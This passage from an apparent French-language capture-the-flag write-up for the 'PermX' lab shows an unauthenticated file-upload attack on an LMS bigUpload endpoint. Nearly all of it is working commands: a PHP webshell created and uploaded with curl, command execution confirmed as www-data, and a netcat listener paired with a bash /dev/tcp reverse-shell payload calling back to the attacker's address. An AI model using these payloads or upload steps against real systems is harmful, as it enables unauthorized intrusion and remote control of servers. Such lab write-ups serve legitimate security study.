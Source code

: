 ### Proof of Concept

**Génération du webshell :**

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

**Téléversement via cURL :**

```bash
curl -F 'bigUploadFile=@shell.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Résultat :</strong> File uploaded successfully
    </p>
</div>

**Vérification du fonctionnement :**

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=id'
```

Sortie :

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell confirmé en tant que www-data\!
    </p>
</div>

### Obtention d'un reverse shell

**Démarrage du listener sur la machine attaquante :**

```bash
nc -lnvp 4455
```

**Création du payload de reverse shell :**

```bash
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.12/4455 0>&1'\''"); ?>' > rev.php
```

**Téléversement du payload :**

```bash
curl -F 'bigUploadFile=@rev.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```
